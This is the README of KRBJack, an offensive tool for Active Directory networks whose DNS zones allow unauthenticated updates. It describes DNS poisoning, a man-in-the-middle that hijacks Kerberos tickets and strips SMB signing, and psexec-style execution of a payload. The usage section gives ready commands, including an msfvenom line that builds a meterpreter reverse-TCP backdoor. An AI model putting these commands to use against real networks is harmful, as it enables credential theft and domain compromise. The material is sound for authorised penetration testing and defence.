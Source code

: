 # KRBJack

This tool can be used to abuse the dangerous `ZONE_UPDATE_UNSECURE` flag on DNS main domain zone in an Active Directory. This flag when set allows anyone unauthenticated to update, add and remove DNS records anonymously. It is quite common to see it during engagements as it is required to get some DHCP servers working with non-windows based systems, to get them update their own records. Even though this flag is extremely dangerous, I've never seen any tool to ease its exploitation. What I wanted to build is a mean to perform Man-in-the-Middle based on this dangerous flag, grab credentials and use them directly to own systems or the entire active directory services (though multiple tools can be used together to perform ntlm relay for example).

The benefit from using this technique of man in the middle is that it goes through routers, as the "official" DNS records are poisonned. If proper routing is set (and if no firewall rule prevents it), someone on another broadcast domain can be targeted (unlike ARP poisoning which only works on you broadcast domain).

Moreover I made the choice to perform fully functionnal AP_REQ hijacking to allow compromission of systems using kerberos instead of NetNTLM.

![image](https://user-images.githubusercontent.com/9830129/235469315-a77c5875-393e-40db-8301-e006013cc98f.png)


# Install

```bash
sudo python -m pip install krbjack
```

You do need to install the tool with root rights as it will need to be runnable by root to listen to privileged ports. Alternatively you can have fun with virtual envs. Alternatively you can download this repo and use `poetry` to install it.

# Usage

`sudo krbjack --target-name <targetNBTName> [--target-ip <targetIP>] --domain <domainName> --dc-ip <domainControlerIpAddress> --ports <port1,port2,port3,...> --executable <executable.exe>`

- `--target-name` : The netbios name of your target, the one you will impersonate, the one you want will pwn if successful. Example : `winserv2`;
- `--target-ip` : You might want to specify the IP address of your target. The alternative is to let this tool query the DNS to get its IP addresses. A quick naive scan is performed to choose one IP from the ones returned by the DNS though this method is flawed. Example: `192.168.42.20`;
- `--domain` : The domain name to which your target is joined. Example : `windomain.local`;
- `--dc-ip` : The IP address of the domain controller you will be poisoning DNS records. Can be any domain controller as the DNS zones will be replicated automatically. Example : `192.168.42.10`;
- `--ports` : A list of TCP ports which will be open on your attacker's machine to forward traffic to your target. This list is *very* important because if you omit one port which is open on the legitimate service (your target), clients wont be able to access it during the time of the attack. Setting this list of ports correctly is the key to perform the attack without doing to much of a mess in the network. Example : `135,139,445,80,443,8080`
- `--executable <executable.exe>` : The path to an executable on your attacker's machine. This executable will be uploaded and executed psexec-style on your target if the attack succeeds. Example : `/home/almandin/metx64revtcp.exe`.

    The executable you provide can be either a "standard" executable, or a windows service executable (better). If it is a "standard" executable, windows will kill it when running after a few seconds if it has not ended already, because as it is run as a service, Windows expects it to do proper signaling (behave as a true service). Though it still works, you might want to migrate quickly your meterpreter when the session is established.

    If you use a windows service executable, you're good to go, nothing to add here. You can generate such executables with msfvenom with the `exe-service` format:

        msfvenom -f exe-service -o backdoor.exe -p windows/x64/meterpreter/reverse_tcp LHOST=X LPORT=Y

**Additionnal flags :**

- `--check` : Used to performs no attack at all, just to check if the DNS zone is vulnerable.
- `--no-poison` : Can  be used to set all the mess in place but prevent DNS poisoning from being done. Just in case you managed to poison DNS yourself or if you found another way to point clients to you instead of the legitimate service.

## What are the requirements for this to work ?

First you need to check if the domain you are testing is vulnerable to the main misconfiguration : `ZONE_UPDATE_UNSECURE`. For this you can use external tools such as PingCastle, or let Krbjack do it with the addition of the `--check` flag on the command line.

At the moment this tool only works for systems that do not require SMB Signing. This is a current limitation as the exploited service is SMB for the time being. It means that you cannot target domain controllers most of the time as they have been requiring SMB signing by default for a long time.

## What are the risks of using this tool ?

Just like any other man in the middle attack, you will be receiving connections from any client requesting an access to any service of your target. This means that it can be CPU intensive if the targetted system is highly used.

Moreover, this tool performs live packet inspection on fully-connected TCP streams. Clients DO connect to you before being redirected to the legitimate service. Because of how Kerberos works, it will block some specific connections from behaving correctly as service tickets will be used on the clients' behalf, having the effect to be "consumed" (kerberos tickets cannot be replayed). It means that this tool will make network connection a bit unreliable for every new connection with an interesting AP_REQ in it (AP_REQ for SMB services to our target). HOWEVER, a whitelist is in place to prevent complete blocking of connections. If a client comes several times, only the first AP_REQ will be hijacked. Either it was successful and you pwned your target, or it was not and the client is added to the whitelist to prevent it from being checked again and blocked multiple times. Moreover, other services will still be served and be working correctly thanks to proper forwarding "à la" ssh port forwarding, thoug it might induce lag and delays because of network packets processing on the attacker machine.

## How does it works ?

First the man in the middle is put in place by changing DNS records attached to your target. It abuses the DNS misconfiguration to say `"hey, now myLegitService is now at <attacker's IP>"`. This way, everyone trying to reach the legitimate service will now reach to you instead. The DNS records are also kept poisoned by checking regularly if they have been set back to the right ones (a server or computer might have reboot, or updated a record while the attack was beeing performed).

In the meantime, the tool starts multithreaded TCP servers to mimick your target TCP services. It starts to serve SMB, HTTP, whatever service you state in the command line. It does so just like an SSH port forwarding : when you reach to the attacker's started services, krbjack initiates connection to the true legitimate service on the same port, and forwards every packet from the legitimate client, to the legitimate service. This way, a full man in the middle is performed both ways, this prevents traffic from being completely blocked.

When the man in the middle is performed, every single packet is inspected to find kerberos AP_REQ packets (containing what's necessary to authenticate to services) or other authenticating packets. When such a packet/ticket is found to be sent from a client, it is used in real time to connect to the legitimate service *on behalf* of the legitimate client. This way krbjack can perform authenticated stuff to the legitimate service. At the moment only SMB is supported, meaning that krbjack performs authenticated SMB actions at this time of the attack workflow. It then uses this authenticated channel to check if the legitimate client was an administrator (tries to list directory ADMIN$ - C:\Windows). If it happens that the client was an administrator, man in the middle is stopped, DNS records are fixed ant it then uses the very same authenticated channel to perform a full psexec.

Krbjack also modifies packets on-the-fly depending on the protocol to remove security flags when possible (SMB flags "signing required", "supported" etc... though it is quite naive for the time being).

# Acknowledgements

Project Zero :
- https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html
- https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html

Impacket :
- https://github.com/fortra/impacket

# Disclaimer

This tooling is made only for legal penetration testing and not for any other use. I am not responsible for how it is used by anyone or if it is used to penetrate systems without permission or proper contractual agreements. It is provided as is and without warranty of any sort.
